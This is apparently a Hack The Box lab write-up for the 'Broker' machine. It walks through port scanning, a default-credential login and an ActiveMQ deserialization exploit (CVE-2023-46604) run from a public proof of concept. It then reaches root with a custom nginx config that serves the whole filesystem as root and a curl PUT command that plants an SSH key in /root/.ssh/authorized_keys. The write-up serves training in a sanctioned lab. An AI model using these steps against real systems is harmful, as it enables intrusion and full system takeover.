

# HTB - Broker

<figure><figcaption></figcaption></figure>

## Overview

A simple box that can be done with some basic enumeration and thinking, starting with a 2023 CVE and then using the sudo permissions to host the machine on a nginx webserver which allows us to get root and a root shell.

## User

### Nmap

We will first start with an nmap scan, I run the command `sudo nmap -p- -sCV 10.10.11.243` the -sCV for common scripts and version enumeration. It returns a lot of ports, the defaults being port 22 and 80. Apart from that there are 1883, 5672 ,8161, 43681 and 61613 which is actually an apache activeMQ server. Theres also jetty on 61614 and activemq openwire on 61616. From the scan we can see its running ubuntu and the nginx server is running ActiveMQRealm and returns 401.


```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/Consumer/Topic/#:
|_    ActiveMQ/Advisory/MasterBroker:
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
43681/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings:
|   HELP4STOMP:
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```


Navigating to the webserver, it immediatley prompts for a login. I try some default credentials as its an easy machine and has a possibility of working, and surprisingly the creds admin:admin work.

<figure><figcaption></figcaption></figure>

Clicking on the "Manage ActiveMQ broker" hyperlink it takes us to a page called /admin/ and Here we can see some details including the version number.

<figure><figcaption></figcaption></figure>

### CVE-2023-46604

Researching activemq version 5.15.15 looking for a vuln I find CVE-2023-46604 which is a vulnerability for the openwire protocol which we previously identified in the nmap scan.

Understanding the POC, I found a [medium ](https://deepkondah.medium.com/unpacking-the-apache-activemq-exploit-cve-2023-46604-92ed1c125b53)post that explains it quite nicely.

The vulnerability is an insecure deserialization flaw. Insecure deserialization occurs when an application processes serialized data without proper validation, allowing attackers to manipulate the data to execute arbitrary code. Exploitation Mechanism: Openwire Protocol and Java Reflection API

The exploit involves certain "gadgets" in the classpath, the Java reflection API, and a flaw in the Openwire protocol marshaller validation. By exploiting these vulnerabilities, an attacker can instantiate any class on the classpath, leading to remote code execution. Exploit Availability:

An exploit for this vulnerability is available on GitHub, specifically leveraging the refreshing of the Spring Application Context. The exploit can potentially use other "gadgets" as well, not limited to the ClassPathXmlApplicationContext mentioned in the article.

Moving onto the exploitation.

Cloning the repo and setting up one terminal with the python server hosting the poc and running the exploit in another terminal setting the port as the openwire protocol port:

<figure><figcaption><p>Shell</p></figcaption></figure>

## Foothold

And just like that we get a shell on the machine as the user activemq, in their home directory we find the user flag.

```
activemq@broker:~$ cat user.txt
cat user.txt
68963fb5a23*********************
activemq@broker:~$
```

I almost forget, we need to stabilize the shell. We do this using a python script:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Then CTRL+Z

then we use stty command to set terminal line settings and foreground back the target terminal: `stty raw -echo; fg`

Setting the terminal to xterm color `export TERM=xterm-256color.`

<figure><figcaption></figcaption></figure>

## Root

Now that we have a shell we need to privesc to get to root. The very first thing I always run is sudo -l to check what sudo permissions the user has.


```
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
activemq@broker:~$
```


We are in luck, we can run the nginx binary with sudo with no passwd. From here we look at gtfobins to check what command to run to get root. But it's not on gtfobins.

After thinking for a second I realise, we can just host the machine cant we. Since it we can run it as root we can just get the root folder or machine hosted on an nginx server?

So the way nginx works is that it refers to a configuration file to start the server, the default is in /etc/nginx but of course we cant edit that, after a quick google search I found out that you can set an alternative configuration file path using the -c flag.

I actually ended up wasting a lot of time due to my inexperience with nginx configs and had various settings set wrong. My initial idea was right but lack of experience resulted in time wasted on the config file.

I create a very simple nginx.conf file in /tmp:


```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```


Running `sudo /usr/sbin/nginx -c /tmp/nginx.conf` doesnt return any output meaning its successful, navigating to the page with the port I set as 1337:

Voila the entire machine is readable here!

<figure><figcaption></figcaption></figure>

And we navigate to /root/root.txt and thats root! We can also get shell as root by using the PUT request:\
`curl -X PUT localhost:1337/root/.ssh/authorized_keys -d 'mysshkey'`

Thanks for reading despite this not being a great writeup, im still learning.
